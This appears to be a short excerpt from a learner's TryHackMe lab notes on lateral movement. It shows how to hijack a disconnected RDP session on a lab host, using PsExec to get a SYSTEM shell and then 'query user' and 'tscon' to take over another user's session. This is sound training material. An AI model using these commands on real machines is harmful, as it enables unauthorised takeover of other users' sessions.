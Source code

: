 These credentials will grant you administrative access to THMJMP2.

For this task, we'll work on hijacking an RDP session. If you are interested in trying backdooring exe or other files, you can find some exercises about this in the [Windows Local Persistence](https://tryhackme.com/jr/windowslocalpersistence) room.

Follow the instructions to hijack t1\_toby.beck's RDP session on THMJMP2 to get your flag.

Note: When executing `query session`, you'll see several users named t1\_toby.beck followed by a number. These are just identical copies of the same user, and you can hijack any of them (you don't need to hijack them all). Make sure you hijack a session marked as disconnected (Disc.) to avoid interfering with other users.



**Victim(cmd)**

```
C:\tools\PsExec64.exe -s cmd.exe
query user
```

<figure><img src="../../.gitbook/assets/image (11) (4) (2).png" alt=""><figcaption></figcaption></figure>

**Victim(cmd)**

```
tscon 4 /dest:rdp-tcp#1
```

Logged me in a Toby right away
